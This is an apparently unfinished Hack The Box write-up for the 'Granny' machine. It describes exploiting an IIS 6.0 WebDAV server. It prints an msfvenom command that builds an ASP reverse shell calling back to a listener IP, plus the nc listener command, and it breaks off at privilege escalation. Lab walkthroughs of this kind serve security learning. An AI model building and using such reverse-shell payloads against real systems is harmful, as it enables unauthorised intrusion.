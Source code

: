 # * Granny
`* Still in progress`

## Recon

The tags on [this box](https://app.hackthebox.com/machines/14)  
> - Windows
> - Patch Management  
> - Web

Difficulty:
> Easy

The only open port is 80. There is an IIS 6.0 webserver running. The homepage appears to be broken:

![[Pasted image 20220115184455.png]]

IIS 6.0 is way old. There's gotta be exploits for it out there. I reviewed EDB exploits using searchsploit, but none of them seem exciting. I decided to check with [Hacktricks's WebDav page](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) and was happy to find the following method to gain code execution.

For the shell, I'll be using msfvenom to create a reverse tcp shell for windows.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f asp -o reverse.asp
```

![[Pasted image 20220115185937.png]]

Now start a listener to catch the reverse shell.

```bash
nc -nvlp 4444
```

Then trigger the exploit by visiting the malicious page we just uploaded.

![[Pasted image 20220115190110.png]]

Look, a shell!

![[Pasted image 20220115190203.png]]

System Info

```
> Host Name:                 GRANNY  
> OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition  
> OS Version:                5.2.3790 Service Pack 2 Build 3790  
> OS Manufacturer:           Microsoft Corporation  
> OS Configuration:          Standalone Server  
> OS Build Type:             Uniprocessor Free  
> Registered Owner:          HTB  
> Registered Organization:   HTB  
> Product ID:                69712-296-0024942-44782  
> Original Install Date:     4/12/2017, 5:07:40 PM  
> System Up Time:            0 Days, 0 Hours, 53 Minutes, 6 Seconds  
> System Manufacturer:       VMware, Inc.  
> System Model:              VMware Virtual Platform  
> System Type:               X86-based PC  
> Processor(s):              1 Processor(s) Installed.  
>   [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz  
> BIOS Version:              INTEL  - 6040000  
>  Windows Directory:         C:\WINDOWS  
> System Directory:          C:\WINDOWS\system32  
> Boot Device:               \Device\HarddiskVolume1  
> System Locale:             en-us;English (United States)  
> Input Locale:              en-us;English (United States)  
> Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk  
> Total Physical Memory:     1,023 MB  
> Available Physical Memory: 709 MB  
> Page File: Max Size:       2,470 MB  
> Page File: Available:      2,255 MB  
> Page File: In Use:         215 MB  
> Page File Location(s):     C:\pagefile.sys  
> Domain:                    HTB  
> Logon Server:              N/A  
> Hotfix(s):                 1 Hotfix(s) Installed.  
> [01]: Q147222  
> Network Card(s):           N/A 
```


## Privesc

I used the same technique to upload winpeas.bat to do some more enumeration.
